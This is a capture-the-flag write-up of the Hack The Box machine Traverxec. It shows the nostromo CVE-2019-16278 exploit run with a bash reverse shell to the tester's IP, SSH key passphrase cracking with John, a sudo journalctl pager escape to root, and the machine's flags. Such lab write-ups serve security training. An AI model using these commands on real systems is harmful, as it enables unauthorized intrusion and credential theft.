# Traverxec — Write-Up

| Field | Details |
|---|---|
| **Machine** | [Traverxec](https://app.hackthebox.com/machines/Traverxec) |
| **Platform** | [Hack The Box](https://hackthebox.com/) |
| **Operating System** | Linux (Debian) |
| **Difficulty** | Easy |
| **Flags** | 2 (user + root) |

---

## Reconnaissance

### Port Enumeration

```bash
nmap -p- -sCV -T5 10.129.1.169 -oN Traverxec
```


| Port | Service | Version |
|---|---|---|
| 22/tcp | SSH | OpenSSH 7.9p1 Debian |
| 80/tcp | HTTP | **nostromo 1.9.6** |

The web server is **nostromo** (nhttpd), an uncommon HTTP server. The page title is `TRAVERXEC`.

---

## Web Enumeration

Port 80 serves the personal page of **David White**:



The page is static with no apparent interactive functionality. The key detail is the server version: **nostromo 1.9.6**, which has a well-known critical vulnerability.

---

## Initial Access — CVE-2019-16278 (Nostromo RCE)

**nostromo 1.9.6** is vulnerable to unauthenticated remote code execution (CVE-2019-16278) via directory traversal in HTTP request handling. Any attacker can execute arbitrary commands on the server without credentials.

### Clone the exploit

```bash
git clone https://github.com/theRealFr13nd/CVE-2019-16278-Nostromo_1.9.6-RCE
```



### Verify code execution

The exploit is first tested by running `whoami`:

```bash
python2 CVE-2019-16278.py -t 10.129.1.169 -p 80 -c whoami
```


The response confirms the server executes commands as `www-data`.

### Prepare the reverse shell

The payload is generated at [revshells.com](https://www.revshells.com) and the listener is started:

```bash
nc -lvnp 9001
```





### Launch the exploit

```bash
python2 CVE-2019-16278.py -t 10.129.1.169 -p 80 -c "bash -c 'bash -i >& /dev/tcp/10.10.14.137/9001 0>&1'"
```



### Shell received


Access gained as **`www-data`**.

---

## Lateral Movement — From www-data to david

### Protected web area

Exploring david's home directory, a folder accessible to `www-data` is found:

```bash
cd /home/david/public_www/protected-file-area
ls -la
```


Contents:
- `.htaccess` — HTTP basic auth protection
- `backup-ssh-identity-files.tgz` — backup of david's SSH keys

### Extracting the backup

Extracting in place fails due to permission errors. The working directory is changed to `/tmp`:

```bash
cd /tmp
tar -xvzf /home/david/public_www/protected-file-area/backup-ssh-identity-files.tgz
```



David's SSH private key is extracted:

```bash
cat /tmp/home/david/.ssh/id_rsa
```

The key is **encrypted with a passphrase** (`Proc-Type: 4,ENCRYPTED`).

### Save and crack the key

The key is copied to the attacking machine and permissions are set:



```bash
chmod 600 id_rsa
```

Attempting to connect prompts for the passphrase:

```bash
ssh -i id_rsa david@10.129.1.169
```



**John the Ripper** is used to crack the passphrase:

```bash
john --wordlist=/home/kali/Escritorio/rockyou.txt hash.txt
john --show hash.txt
```



Passphrase found: **`hunter`**

### SSH access as david

```bash
ssh -i id_rsa david@10.129.1.169
# Enter passphrase for key 'id_rsa': hunter
```



### User Flag

```bash
cat user.txt
```

Flag: **`7556c5a03841c5b2e6e5486bb837814e`**

---

## Privilege Escalation

### Analyzing david's bin directory

David's home contains a `bin` folder with an interesting script:

```bash
cat ~/bin/server-stats.sh
```



The script includes the following relevant line:

```bash
/usr/bin/sudo /usr/bin/journalctl -n5 -unostromo.service | /usr/bin/cat
```

This means `david` can run `journalctl` as `root` without a password. However, piping through `| /usr/bin/cat` suppresses the interactive pager. The command is run **without the pipe** so that `journalctl` opens its pager (`less`):

```bash
/usr/bin/sudo /usr/bin/journalctl -n5 -unostromo.service
```


`journalctl` uses `less` as its pager. While `less` is active, a shell can be spawned by typing:

```
!/bin/bash
```

Since `journalctl` runs as `root`, the resulting shell is also `root`. This vector is documented on [GTFOBins — journalctl](https://gtfobins.github.io/gtfobins/journalctl/).

> **Note:** For the pager to activate, the terminal window must be small enough that the output doesn't fit on screen. If everything is displayed at once without pagination, shrink the terminal window before running the command.

### Root Flag

```bash
cd /root
ls
cat root.txt
```


Flag: **`41aa9f9f751dc559f32b60c6c3e09d4b`**

---

## Summary

| Phase | Technique | Tool |
|---|---|---|
| Enumeration | Port Scan | `nmap` |
| Initial access | RCE — CVE-2019-16278 (nostromo 1.9.6) | `python2` + `nc` |
| Internal recon | Web directory exploration | Shell |
| SSH key retrieval | Backup in protected web area | `tar` |
| Passphrase cracking | Brute force on encrypted RSA key | `john` + `rockyou.txt` |
| Access as david | SSH with private key | `ssh -i id_rsa` |
| Privilege escalation | Sudo + GTFOBins (`journalctl` → `less` → `!/bin/bash`) | `journalctl` |
